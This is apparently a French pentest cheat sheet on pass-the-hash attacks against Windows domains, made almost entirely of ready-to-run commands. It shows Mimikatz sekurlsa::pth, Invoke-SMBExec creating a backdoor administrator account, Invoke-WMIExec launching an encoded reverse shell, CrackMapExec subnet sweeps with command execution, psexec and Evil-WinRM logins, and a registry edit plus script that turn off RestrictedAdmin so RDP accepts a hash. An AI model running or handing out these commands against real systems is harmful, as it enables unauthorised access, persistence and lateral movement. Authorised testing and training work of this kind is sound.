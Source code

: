 ```yaml
---
public: true # set to true to make the article publishable
---
```

## Localement
### Mimikatz

On peut créer un processus disposant des identifiants réseau d'un autre utilisateur pour accéder à des ressources réseau en son nom

```
# lancer un processus en tant qu'un autre utilisateur (julio) dont on connait le hash
    # on peut remplacer /rc4 par /NTLM
mimikatz.exe privilege::debug "sekurlsa::pth /user:julio /rc4:64F12CDDAA88057E06A81B54E73B949B /domain:domain.local /run:cmd.exe" exit


```

### Invoke-TheHAsh

On peut également exécuter des commandes à distance en tant qu'un utilisateur dont on possède le Hash (s'il possède les droits requis bien évidemment)

```powershell

# Powershell avec Invoke-TheHash (https://github.com/Kevin-Robertson/Invoke-TheHash)
Import-Module .\Invoke-TheHash.psd1

# exécution de command (backdoor user)
Invoke-SMBExec -Target 172.16.1.10 -Domain domain.local -Username ad_user -Hash AAAAAAAAAA88057E06A81B54E73B949B -Command "net user rebrec Password123 /add && net localgroup administrators rebrec /add" -Verbose

# lancement d'un reverse shell
Invoke-WMIExec -Target DC01 -Domain domain.local -Username ad_user -Hash AAAAAAAAAA88057E06A81B54E73B949B -Command "powershell -e <base64_reverseshell_payload>"
```

## A Distance

### Crackmapexec

```
# Tester les machines d'un sous réseau 
cme smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453
cme smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453 --local-auth

# Exécuter une commande sur les machines
cme smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453 -x whoami

```

### Impacket

```
psexec.py Administrator@$TARGET_IP -hashes :30B3783CE2ABF1AF70F77D0660CF3453  
```

### Evil-WinRM

```
evil-winrm -i 10.129.201.126 -u Administrator -H 30B3783CE2ABF1AF70F77D0660CF3453
```

### Via RDP

Il est nécessaire de désactiver une restriction empêchant de se connecter en RDP en administrateur via du PtH. Pour ce faire :

```
# Localement
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f

# A Distance
cme smb $TARGET_IP -u Administrator -H '30B3783CE2ABF1AF70F77D0660CF3453' --local-auth -x 'reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f' 
```

On peut ensuite utiliser **xfreerdp**

```
xfreerdp  /v:10.129.201.126 /u:julio /pth:64F12CDDAA88057E06A81B54E73B949B
```

**Attention**

Seul le compte Administrateur local (RID-500) peut utiliser PtH sur les environnements où l'UAC est actif.

Le paramètre `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\LocalAccountTokenFilterPolicy`est à `1`, alors tous les compte locaux membre du groupe `Administrateur Local` pourront le faire également (car ils disposeront d'un jeton "Full Integrity")

** Les comptes utilisateurs du domaine qui sont membres du groupe `Administrateur Local` ne sont dans tous les cas, pas bloqués et peuvent utiliser une attaque de type PtH**

#### Script complet (si execution à distance autorisée)

```bash
################## Non testé pour l'instant
export HASH='30B3783CE2ABF1AF70F77D0660CF3453'
export USER='Administrator'

echo "Check status of RestrictedAdmin setting"
cme smb $TARGET_IP -u $USER -H $HASH --local-auth -x 'reg query HKLM\System\CurrentControlSet\Control\Lsa /v DisableRestrictedAdmin' 

echo "Disabling"
cme smb $TARGET_IP -u $USER -H $HASH --local-auth -x 'reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f' 

echo "Connecting"
xfreerdp  /v:$TARGET_IP /u:$USER /pth:$HASH
```

